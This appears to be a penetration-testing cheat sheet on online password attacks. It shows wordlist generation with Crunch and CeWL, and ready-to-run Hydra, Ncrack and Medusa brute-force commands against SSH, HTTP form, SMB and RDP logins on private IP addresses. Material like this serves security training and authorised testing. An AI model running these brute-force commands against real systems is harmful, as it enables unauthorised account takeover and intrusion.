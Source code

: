 # Online Attack

## Wordlist

### Crunch

Crunch is a tool that can generate custom wordlist with defined character-sets and password formats.

```
crunch [min] [max] [characterset] -t [pattern] -o [output filename]
```

```
min = minimum password length 
max = maximum password length 
characterset = The character set to be used in generating the passwords 
-t = patten, for example if you knew that your target's birthday was 0728 (July 28th) and you suspected they used their birthday in their password, you could generate a password list that ended with 0728 by giving crunch the pattern @@@@@@@0728.
```

```
./crunch 1 1 -p pen test lab
```

The second option is when we will want to create a list based on different words.For example the words blue and red can be bluered or redblue.We can achieve this with the command:

```
./crunch 6 6 0123456789 -b 1mb -o START
```

This will generate wordlists which will be 1Mb each and with 6 characters size and it will include the characters 0123456789.

```
./crunch 3 3 -f charset.lst lalpha -o START -c 20
```

Crunch allows us to specify the number of words in each wordlist.This will create a wordlists that it will contain 20 words maximum by taken a specific charset of lalpha which is \[abcdefghijklmnopqrstuvwxyz\].

```
./crunch 13 13 -f charset.lst lalpha -t pentestlab@@@
```

Create a wordlist that will contains the word pentestlab followed by 3 random characters.

### CeWL

CeWL is a ruby app which spiders a given url to a specified depth, optionally following external links, and returns a wordlist which can then be used for password crackers such as John the Ripper.

```
cewl -d 2 -m 5 -w docswords.txt http://docs.kali.org
```

## Bruteforce

### Hydra

```
hydra -l username -p passwordlist.txt [target (ip address and port)]
```

#### SSH bruteforce

Brute-force SSH root account using a wordlist/dictionary

```
hydra -l root -P 500-worst-passwords.txt 192.168.1.10 ssh
```

-l = the username

-L = list of usernames \(if you don't know the login\)

-p = password \(never used\)

-P - the directory for the wordlists \(file\)

-M FILE list of servers to be attacked in parallel, one entry per line

Less common options: -vV = verbose mode, shows you every login attempt hydra tries

-s = specify the port on which we running our attack

-e ns = checks for blank or no password fields

#### HTTP Form Bruteforce

Brute-force HTTP Form POST using a username list to try different usernames

```
hydra -L [username list] -P [password list] 192.168.1.10 [form parameters] [failed login message]
```

#### SMB Bruteforce

```
hydra –L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```

![Single Target , Port and Protocol](../.gitbook/assets/image.png)

![Username List, Password List](../.gitbook/assets/image%20%282%29.png)

{% embed data="{\"url\":\"http://www.hackingarticles.in/5-ways-to-hack-smb-login-password/\",\"type\":\"link\",\"title\":\"5 Ways to Hack SMB Login Password\",\"description\":\"In this article, we will learn how to gain control over our victim’s PC through SMB Port. There are various ways to do it and let take time and learn all those because different circumstances call for different measure. xHydra This is the graphical version to apply dictionary attack via SMB port to hack a... Continue reading →\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://4.bp.blogspot.com/-1l4jtN0-RVs/Wp7QKE\_WPPI/AAAAAAAAVB8/ID1QQcSz4IUkOIVPvQqWMKMBnjk6A7uVwCEwYBhgL/s1600/3.png\",\"width\":482,\"height\":546,\"aspectRatio\":1.1327800829875518}}" %}

### Ncrack

#### RDP bruteforce

 ```
 ncrack -vv --user offsec -P passwordfile.txt rdp://192.168.11.35
 ```

#### SMB Bruteforce

```
ncrack –u /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 –p 445
```

-U - denotes the path of username list

-P – denotes password file’s path

-p – is the port number

### Medusa

#### SMB Bruteforce

```
medusa -h 192.168.1.118 -U /root/Desktop/user.txt -P /root/Desktop/pass.txt -M smbnt
```

